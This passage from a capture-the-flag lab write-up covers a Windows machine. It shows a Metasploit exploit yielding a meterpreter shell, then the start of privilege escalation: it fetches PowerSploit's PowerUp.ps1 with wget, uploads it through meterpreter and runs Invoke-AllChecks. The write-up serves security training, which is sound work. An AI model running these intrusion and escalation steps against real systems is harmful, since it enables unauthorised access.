 Let exploit by typing 
```
exploit
```
Awsome we got the meterpreter shell

## User flag

the user flag is in Desktop foler

![image](https://github.com/user-attachments/assets/7b36b7ca-5fa3-4671-8fef-81a1d0a936f7)



Step 3. Privillage Esclation.
Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!



To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."



To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the upload command in Metasploit to upload the script.

Download the scrit in your system:
```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
let upload this script 
```
upload PowerUp.ps1
```
![image](https://github.com/user-attachments/assets/7e4b2e0c-1e65-40e9-b89a-9e590ad3ef34)

To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:
```
meterpreter > load powershell
meterpreter > powershell_shell
```
![image](https://github.com/user-attachments/assets/410527e1-1e5c-483a-bf03-4cda1dafeb19)

Run this script in powershell :
```ps
PS > . .\PowerUp.ps1
PS > Invoke-Allchecks
```

